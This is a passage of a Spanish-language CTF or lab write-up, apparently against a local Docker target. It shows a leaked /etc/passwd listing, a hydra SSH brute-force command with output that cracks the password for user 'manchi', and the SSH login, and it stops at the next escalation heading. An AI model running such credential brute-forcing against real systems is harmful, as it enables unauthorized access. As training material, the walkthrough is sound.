 ```
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Vemos que efectivamente leer el archivo `passwd`, vamos a tirar fuerza bruta con `hydra`, por `SSH`.

## Escalate user manchi

### Hydra

> users.txt

```
manchi
seller
```

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-07 18:24:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Por lo que vemos hemos obtenido las credenciales del usuario `manchi`, por lo que nos conectaremos por `SSH`.

### SSH

```shell
ssh manchi@<IP>
```

Metemos como contraseña `lovely` y veremos que estamos dentro.

## Escalate user seller
